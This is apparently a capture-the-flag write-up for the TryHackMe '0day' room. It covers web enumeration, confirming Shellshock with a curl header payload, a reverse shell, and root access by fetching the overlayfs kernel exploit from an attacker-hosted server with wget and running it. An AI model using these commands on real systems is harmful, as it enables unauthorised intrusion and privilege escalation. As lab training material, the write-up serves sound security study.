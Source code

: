 # 0day

A pretty easy THM room. You just need to know what to do, and the rest is a cake-walk.

[Play](https://tryhackme.com/room/0day)

## 1. Enumeration and Scanning

### 1.1. Web Exploration

![The 0day website homepage](https://imgur.com/jJe7K0O.png)

We find the `/secret/` directory in the enumeration.
![The secret directory](https://imgur.com/woRmoi9.png)

We find a `id_rsa` key, in `/backup/`

![RSA key in backups folder](https://i.imgur.com/W6CRPti.png)

### 1.2. Web Enumeration: Nikto
```
┌──(kali㉿kali)-[~]
└─$ nikto -h 10.10.157.88      
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.157.88
+ Target Hostname:    10.10.157.88
+ Target Port:        80
+ Start Time:         2021-05-28 04:11:18 (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache/2.4.7 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Apache/2.4.7 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Server may leak inodes via ETags, header found with file /, inode: bd1, size: 5ae57bb9a1192, mtime: gzip
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS 
+ Uncommon header '93e4r0-cve-2014-6278' found, with contents: true
+ OSVDB-112004: /cgi-bin/test.cgi: Site appears vulnerable to the 'shellshock' vulnerability (http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271).
```

Interesting. We see a shellshock vulerability. Going to the page, we see:

![cgi-bin test page](https://i.imgur.com/c2M3UV2.png)

### 1.3. Port Scanning

```
Not shown: 998 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Nothing too ordinary. Let's also confirm the presence of shell-shock?

```
┌──(kali㉿kali)-[/tmp]
└─$ nmap -sV --script http-shellshock --script-args uri=/cgi-bin/test.cgi,cmd=ls 10.10.157.88
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-28 04:15 EDT
Nmap scan report for 10.10.157.88
Host is up (0.20s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
| http-shellshock: 
|   VULNERABLE:
|   HTTP Shellshock vulnerability
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2014-6271
|       This web application might be affected by the vulnerability known
|       as Shellshock. It seems the server is executing commands injected
|       via malicious HTTP headers.
|             
|     Disclosure date: 2014-09-24
|     Exploit results:
|       <!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
|   <html><head>
|   <title>500 Internal Server Error</title>
|   </head><body>
|   <h1>Internal Server Error</h1>
|   <p>The server encountered an internal error or
|   misconfiguration and was unable to complete
|   your request.</p>
|   <p>Please contact the server administrator at 
|    webmaster@localhost to inform them of the time this error occurred,
|    and the actions you performed just before this error.</p>
|   <p>More information about this error may be available
|   in the server error log.</p>
|   <hr>
|   <address>Apache/2.4.7 (Ubuntu) Server at 10.10.157.88 Port 80</address>
|   </body></html>
|   
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-7169
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271
|       http://seclists.org/oss-sec/2014/q3/685
|_      http://www.openwall.com/lists/oss-security/2014/09/24/10
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.64 seconds
```

Voila! Its there. Let's look it up.

## 2. Foothold

[Exploit shellshock](https://antonyt.com/blog/2020-03-27/exploiting-cgi-scripts-with-shellshock)

Let's test this once more, just to be sure.
```
┌──(kali㉿kali)-[/tmp]
└─$ curl -H "User-agent: () { :;}; echo; echo vulnerable" http://10.10.157.88/cgi-bin/test.cgi
vulnerable
Content-type: text/html

Hello World!
```

And, putting a reverse shell ....

![Getting a reverse shell](https://i.imgur.com/gAPdU4W.png)

We are in!

## 3. PrivEsc

Since we do not have the sudo password, that route is blocked. I checked the setuid bit set files - there are none. I also saw the Kernel version for fun.

```
www-data@ubuntu:/home/ryan$ uname -a
uname -a
Linux ubuntu 3.13.0-32-generic #57-Ubuntu SMP Tue Jul 15 03:51:08 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux
www-data@ubuntu:/home/ryan$ gcc --version
gcc --version
gcc (Ubuntu 4.8.4-2ubuntu1~14.04.4) 4.8.4
Copyright (C) 2013 Free Software Foundation, Inc.
This is free software; see the source for copying conditions.  There is NO
warranty; not even for MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.

```

So we have an old kernelt, which points to the overlayfs exploit. We have gcc too, so that's great. The architecture is base 64. [Here is the exploit](https://github.com/lucyoa/kernel-exploits/blob/master/overlayfs/ofs_64). 

Startup a server on your own machine.

```
┌──(kali㉿kali)-[/tmp]
└─$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.157.88 - - [28/May/2021 04:32:40] "GET /ofs_64 HTTP/1.1" 200 -
```

Get the executable.

```
www-data@ubuntu:/tmp$ wget 10.17.8.184/ofs_64 
wget 10.17.8.184/ofs_64
--2021-05-28 01:32:40--  http://10.17.8.184/ofs_64
Connecting to 10.17.8.184:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 886664 (866K) [application/octet-stream]
Saving to: 'ofs_64'

100%[======================================>] 886,664      311KB/s   in 2.8s   

2021-05-28 01:32:44 (311 KB/s) - 'ofs_64' saved [886664/886664]

www-data@ubuntu:/tmp$ 
```

Running it however, we get an error. The fixes I saw were all about getting g++ or updating the repository thingies. We do not have internet ;-;

Checking the PATH was the next best move then. I put the default ubuntu PATH as below, and ...

```
www-data@ubuntu:/tmp$ export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
<t PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin         
www-data@ubuntu:/tmp$ ./ofs_64 
./ofs_64 
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
sh: 0: can't access tty; job control turned off
# whoami
root
# 
```

System compromised!

